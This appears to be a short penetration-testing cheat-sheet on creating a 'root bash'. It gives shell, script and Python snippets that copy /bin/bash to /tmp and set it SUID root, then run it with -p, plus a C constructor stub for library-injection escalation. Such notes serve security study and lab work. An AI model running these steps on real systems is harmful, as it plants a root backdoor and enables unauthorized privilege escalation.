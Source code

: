 # Root Bash

<div class="row row-cols-lg-2"><div>

A root bash is a (bash) shell that was executed as root. For instance, using an attack vector such as a SUID script, we may run:

```ps
$ cp /bin/bash /tmp/rootbash
$ chown root /tmp/rootbash
$ chmod +s /tmp/rootbash
```
</div><div>

If you are successful, you can use `-p` (and `-i`) to run it:

```ps
$ /tmp/rootbash -p
root@xxx$
```

📚 Replace `root` with another user according to the attack vector.
</div></div>

<hr class="sep-both">

<div class="row row-cols-lg-2"><div>

#### Root Bash (script)

Remember to make it executable using `chmod +x root.sh`.

```bash!
cp /bin/bash /tmp/rootbash
chown root /tmp/rootbash
chmod +s /tmp/rootbash
```
</div><div>

#### Root Bash (Python)

The values `0,0` are the UID/GID. `0o4755` means `755` with SUID.

```py
import shutil
import os

source_path = '/bin/bash'
destination_path = '/tmp/rootbash'
shutil.copy2(source_path, destination_path)
os.chown(destination_path, 0, 0)
os.chmod(destination_path, 0o4755)
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```c
// gcc -shared -fPIC shell.c -o shell.so
#include<stdio.h>
#include<stdlib.h>

void __attribute__((constructor)) shell();

void main() {};

void shell() {
    system("id");
}
```
</div><div>
</div></div>